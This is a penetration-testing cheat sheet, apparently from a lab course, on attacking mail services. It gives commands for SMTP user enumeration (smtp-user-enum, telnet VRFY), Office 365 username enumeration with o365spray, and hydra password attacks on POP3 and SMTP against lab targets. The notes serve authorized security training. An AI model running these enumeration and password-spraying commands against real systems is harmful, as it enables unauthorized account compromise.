 ```shell-session
# Go to ~/tools/smtp-user-enum
./smtp-user-enum.pl -M RCPT -U userlist.txt -D inlanefreight.htb -t $ip
# -M: Enumeration mode, it can be `VRFY`, `EXPN`, or `RCPT`
# -U: file with list of users
# -D: domain
# -t: target
```

**Enumerating from Windows?** Test-NetConnection can not perform VRFY connections on port 25. We may try with telnet if installed. If installed we can enable it with:

```powershell
dism /online /Enable-feature /FeatureName:TelnetClient
```

And now, perform enumeration:

```powershell
telnet $ip 25
VRFY root
```

Otherwise, installing telnet requires administrator permissions.

### Cloud mail server implementation

#### Enumerating users in Microsoft Office 365 (O365)

##### O365spray

[O365spray](o365spray.md) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365). This tool reimplements a collection of enumeration and spray techniques.

```
sudo pip install -r requirements.txt
```

Basic usage:

```shell-session
# First validate if our target domain is using Office 365.
python3 o365spray.py --validate --domain msexample.com

# Attempt to identify usernames.
python3 o365spray.py --enum -U users.txt --domain msexample.com

```


## Password Attacks

### Custom mail servers
#### hydra

```shell-session
# Attacking a pop3 service
hydra -L users.txt -p 'Company01!' -f $ip pop3

hydra -l user@inlanefreight.htb -P passwords.list -t 64 -f $ip smtp
```

